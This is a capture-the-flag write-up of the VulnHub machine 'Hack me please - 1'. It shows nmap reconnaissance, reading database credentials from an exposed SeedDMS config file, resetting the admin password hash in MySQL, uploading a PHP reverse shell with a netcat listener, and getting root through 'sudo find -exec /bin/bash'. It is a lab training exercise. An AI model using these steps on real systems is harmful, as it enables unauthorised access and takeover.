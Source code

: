 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/vuln-hub/hack-me-please-1/","tags":["CTF","write-up","Sensitive_data_exposure","sudo-l","RCE"]}
---
```



![Pasted image 20241210090634.png](/img/user/attachments/Pasted%20image%2020241210090634.png)

---
> [!INFO] Info about Hack me please - 1
>  Difficulty: Easy
>  
>  Description: An easy box totally made for OSCP. No bruteforce is required.
>  
>  Aim: To get root shell

> [!FAQ]- Hints
> **Operating System**: Linux

---
# Active reconnaissance
## Port scan
Executing a fast general scan to all ports.
```shell
sudo nmap TARGET_IP -n -p- -sS -Pn -vvv --open --min-rate 5000 -oN nmap_scan
```

```c
PORT      STATE SERVICE REASON
80/tcp    open  http    syn-ack ttl 64
3306/tcp  open  mysql   syn-ack ttl 64
33060/tcp open  mysqlx  syn-ack ttl 64
```

---
# Enumeration
Executing a deep scan with common scripts only to ports that we are interested.
```shell
sudo nmap TARGET_IP -sCV -p 22,80 -oN nmap_enum
```
## OS
Linux, ubuntu
## Port 3306 - MySQL
06/tcp  open  mysql   **MySQL 8.0.25**-0ubuntu0.20.04.1
| ssl-cert: Subject: commonName=MySQL_Server_8.0.25_Auto_Generated_Server_Certificate
| Not valid before: 2021-07-03T00:33:15
Not valid after:  2031-07-01T00:33:15
| mysql-info:
|   Protocol: 10
|   Version: 8.0.25-0ubuntu0.20.04.1
|   Thread ID: 38
|   Capabilities flags: 65535
|   **Some Capabilities**: SupportsCompression, Speaks41ProtocolNew, SwitchToSSLAfterHandshake, Support41Auth, LongColumnFlag, Speaks41ProtocolOld, ODBCClient, InteractiveClient, IgnoreSigpipes, IgnoreSpaceBeforeParenthesis, SupportsLoadDataLocal, LongPassword, DontAllowDatabaseTableColumn, FoundRows, SupportsTransactions, ConnectWithDatabase, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: \x1EBx\x0E"
| X\x14\x0C\x06B^H&4*%J\x0F
|_  Auth Plugin Name: caching_sha2_password
|ssl-date: TLS randomness does not represent time
## Port 33060 - MySQLX
fingerprint-strings:
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp:
|     Invalid message"
|     HY000
|   LDAPBindReq:
Parse error unserializing protobuf message"
|     HY000
|   oracle-tns:
|     Invalid message-frame."
|_    HY000
## Port 80 - Apache
80/tcp    open  http    Apache httpd **2.4.41** ((Ubuntu))
Add the IP to  */etc/hosts*
```shell
sudo echo "192.168.122.99 hackmeplease.vh" | sudo tee -a /etc/hosts
```
![Pasted image 20241210120145.png](/img/user/attachments/Pasted%20image%2020241210120145.png)
Exploring the webpage I found a server to handle documents named *SeedDMS*
![Pasted image 20241210201410.png](/img/user/attachments/Pasted%20image%2020241210201410.png)

---
# Exploitation
## Apache
### Sensitive Data Exposure
Searching information about *SeedDMS* on the github or gitlab page.
![Pasted image 20241210201719.png](/img/user/attachments/Pasted%20image%2020241210201719.png)
The config info like credentials are stored on */conf/settings.xml*
![Pasted image 20241210201825.png](/img/user/attachments/Pasted%20image%2020241210201825.png)
Therefore, I'll try to reach and check this file in the machine. I used *BurpSuite*
The file exists and content the database credentials. In this case, we know that a *MySQL* server is running, so I assume the credentials are of it.
```
http://hackmeplease.vh/seeddms51x/conf/settings.xml
```

![Pasted image 20241210202321.png](/img/user/attachments/Pasted%20image%2020241210202321.png)
## MySQL
Connect
```shell
mysql -u seeddms -h 192.168.122.99 -p
```

```shell
show databases;
use seeddms;
show tables;
```

```shell
select * from users;
```
I found credentials, but these are not of the login page.
![Pasted image 20241210214845.png](/img/user/attachments/Pasted%20image%2020241210214845.png)

The *tblUsers* contain the credentials.
```shell
select * from tblUsers;
```
![Pasted image 20241210215029.png](/img/user/attachments/Pasted%20image%2020241210215029.png)
 I didn't crack it, but I change it.
 
First I generate the *MD5* hash
```shell
echo -n "admin" | md5sum
```
![Pasted image 20241210214555.png](/img/user/attachments/Pasted%20image%2020241210214555.png)

Now update the hash
```shell
update tblUsers set pwd="21232f297a57a5a743894a0e4a801fc3" where id=1;
```
![Pasted image 20241210214617.png](/img/user/attachments/Pasted%20image%2020241210214617.png)

The password was changed
![Pasted image 20241210215250.png](/img/user/attachments/Pasted%20image%2020241210215250.png)
## SeedDMS RCE
Login with *admin:admin* credentials
![Pasted image 20241210220104.png|500](/img/user/attachments/Pasted%20image%2020241210220104.png)
![Pasted image 20241210220132.png](/img/user/attachments/Pasted%20image%2020241210220132.png)

*searchsploit* show a vulnerability that I can try, although the version doesn't math.
![Pasted image 20241210235105.png](/img/user/attachments/Pasted%20image%2020241210235105.png)
The instructions:
![Pasted image 20241210235149.png](/img/user/attachments/Pasted%20image%2020241210235149.png)
1. In the admin panel, add a document
   ![Pasted image 20241210235304.png](/img/user/attachments/Pasted%20image%2020241210235304.png)
2. Upload a PHP reverse shell (in this case, the *kali* resource */usr/share/webshells/php/php-reverse-shell.php*)
   ![Pasted image 20241210235517.png](/img/user/attachments/Pasted%20image%2020241210235517.png)
3. Open the document on the panel to check the information about versions
   ![Pasted image 20241210235643.png](/img/user/attachments/Pasted%20image%2020241210235643.png)
4. Start the listener
   ```shell
rlwrap nc -lnvp 4747
   ```
5. Go to the *url*
   ```shell
http://hackmeplease.vh/seeddms51x/data/1048576/5/1.php
   ```

Now we got a shell on the listener
![Pasted image 20241211000401.png](/img/user/attachments/Pasted%20image%2020241211000401.png)

---
# Privilege escalation
## Get saket shell
Check interesting users
```shell
 cat /etc/passwd | grep ash
 ```
 ![Pasted image 20241211001750.png](/img/user/attachments/Pasted%20image%2020241211001750.png)

The user *saket* exists, try the credentials found from *mysql* and works
```shell
su saket
```
![Pasted image 20241211001946.png](/img/user/attachments/Pasted%20image%2020241211001946.png)
## Get root shell
Check *sudo -l* permissions
```shell
sudo -l
```
I can run *ALL* command as the *root* user
![Pasted image 20241211002107.png](/img/user/attachments/Pasted%20image%2020241211002107.png)

I try to escalate with *find* command
```shell
sudo find / etc/passwd -exec /bin/bash \;
```
It works and we are root
![Pasted image 20241211002231.png](/img/user/attachments/Pasted%20image%2020241211002231.png)

---
